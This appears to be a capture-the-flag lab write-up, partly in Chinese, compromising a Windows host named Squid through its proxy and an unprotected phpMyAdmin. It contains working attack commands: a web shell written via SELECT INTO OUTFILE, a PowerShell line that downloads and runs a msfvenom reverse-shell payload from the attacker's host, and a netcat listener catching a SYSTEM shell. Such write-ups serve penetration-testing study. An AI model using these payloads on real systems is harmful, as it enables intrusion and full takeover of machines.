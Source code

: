 # Squid
![image](https://hackmd.io/_uploads/rk2UCxhnJx.png)

## Solution
### 1. Recon
#### 1.1 Nmap
```
┌──(chw㉿CHW)-[~]
└─$ nmap -sC -sV -T4 -p- 192.168.133.189
...
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3128/tcp  open  http-proxy    Squid http proxy 4.14
|_http-title: ERROR: The requested URL could not be retrieved
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-03-22T09:15:27
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 354.50 seconds
```
> http proxy, RPC
### 2. enum4linux & smbclient
```
┌──(chw㉿CHW)-[~]
└─$ enum4linux -a 192.168.133.189

┌──(chw㉿CHW)-[~]
└─$ smbclient -N -L \\\\192.168.133.189\\
session setup failed: NT_STATUS_ACCESS_DENIED

```
> 皆沒有可用資訊

### 3. http-proxy scanner
使用 [spose](https://github.com/aancw/spose) 掛上 proxy 再掃描一次
```
┌──(chw㉿CHW)-[~/Tools]
└─$ git clone https://github.com/aancw/spose.git

┌──(chw㉿CHW)-[~/Tools/spose_http-proxy-scanner]
└─$ python3 spose.py --proxy http://192.168.133.189:3128 --target 192.168.133.189
Scanning default common ports
Using proxy address http://192.168.133.189:3128
192.168.133.189:3306 seems OPEN
192.168.133.189:8080 seems OPEN
```
> 發現 3306 & 8080

### 3. Browser http-proxy
Browser 掛上題目 http-proxy\
![image](https://hackmd.io/_uploads/BJz0f-3h1l.png)

瀏覽 192.168.133.189:8080\
![image](https://hackmd.io/_uploads/Hk1FFW3nJl.png)
> Wampserver 3.2.3\
> ![image](https://hackmd.io/_uploads/HJ4_hb33yl.png)


### 4. Dirb with proxy
```
┌──(chw㉿CHW)-[~]
└─$ dirb http://192.168.133.189:8080/ -p 192.168.133.189:3128
```
> 其實也不用爆破，192.168.133.189:8080
> 有顯示 `phpinfo()` 與 `phpMyadmin`

### 5. phpMyadmin
http://192.168.133.189:8080/phpmyadmin/index.php\
![image](https://hackmd.io/_uploads/SJFkJGhhyx.png)
> admin:amdin (失敗)
> root:{無密碼} (成功 ?!)

瀏覽資料庫:
- user
![image](https://hackmd.io/_uploads/H1xq1z321g.png)

目標： 寫 revershell 進資料庫\
從 phpinfo() 中可以得知路徑在 `C:\wamp`\
 ![image](https://hackmd.io/_uploads/SkvAWzn21e.png)

### 6. Reverse Shell
#### 6.1 建立 Reverse Shell file
```
┌──(chw㉿CHW)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.165 LPORT=8888 -f exe -o chw_windows.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: chw_windows.exe

┌──(chw㉿CHW)-[~]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```
#### 6.2 Ｗindows 指令注入 mysql
```
SELECT "<?php system('powershell -c \"Invoke-WebRequest -Uri http://192.168.45.165/chw_windows.exe -OutFile C:\\windows\\temp\\rs.exe; Start-Process C:\\windows\\temp\\rs.exe\"'); ?>"
INTO OUTFILE "C:/wamp/www/rev.php"
```
![image](https://hackmd.io/_uploads/B1I7wG2n1g.png)\
(Kali)\
開啟監聽 port
```
┌──(chw㉿CHW)-[~]
└─$ nc -nvlp 8888
listening on [any] 8888 ...
connect to [192.168.45.165] from (UNKNOWN) [192.168.133.189] 50486
Microsoft Windows [Version 10.0.17763.2300]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\wamp\www>

```

瀏覽 http://192.168.133.189:8080/rev.php

### 7. 取得 reverse shell
```
┌──(chw㉿CHW)-[~]
└─$ nc -nvlp 8888
listening on [any] 8888 ...
connect to [192.168.45.165] from (UNKNOWN) [192.168.133.189] 50486
Microsoft Windows [Version 10.0.17763.2300]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\wamp\www>hostname
hostname
SQUID

C:\wamp\www>whoami
whoami
nt authority\system

```
### ✅ Get Root FLAG
> 在 `C:\Users\Administrator\Desktop`找到 Root flag

